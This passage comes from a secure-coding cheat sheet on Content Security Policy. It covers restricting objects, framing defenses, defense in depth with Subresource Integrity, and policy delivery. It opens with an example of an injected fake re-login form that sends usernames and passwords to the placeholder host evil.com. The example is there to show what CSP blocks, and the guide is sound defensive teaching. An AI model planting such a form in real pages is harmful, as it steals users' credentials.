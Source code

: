 ```html
<form method="POST" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>
```

#### 5. Restricting Objects

And by restricting the HTML [object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) tag, it also won't be possible for an attacker to inject malicious flash/Java/other legacy executables on the page.

### Defense against framing attacks

Attacks like clickjacking and some variants of browser side-channel attacks (xs-leaks) require a malicious website to load the target website in a frame.

Historically the `X-Frame-Options` header has been used for this, but it has been obsoleted by the `frame-ancestors` CSP directive.

### Defense in Depth

A strong CSP provides an effective **second layer** of protection against various types of vulnerabilities, especially XSS. Although CSP doesn't prevent web applications from *containing* vulnerabilities, it can make those vulnerabilities significantly more difficult for an attacker to exploit.

Even on a fully static website, which does not accept any user input, a CSP can be used to enforce the use of [Subresource Integrity (SRI)](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity). This can help prevent malicious code from being loaded on the website if one of the third-party sites hosting JavaScript files (such as analytics scripts) is compromised.

With all that being said, CSP **should not** be relied upon as the only defensive mechanism against XSS. You must still follow good development practices such as the ones described in [Cross-Site Scripting Prevention Cheat Sheet](Cross_Site_Scripting_Prevention_Cheat_Sheet.md), and then deploy CSP on top of that as a bonus security layer.

## Policy Delivery

You can deliver a Content Security Policy to your website in three ways.

### 1. Content-Security-Policy Header

Send a Content-Security-Policy HTTP response header from your web server.

```text
Content-Security-Policy: ...
```
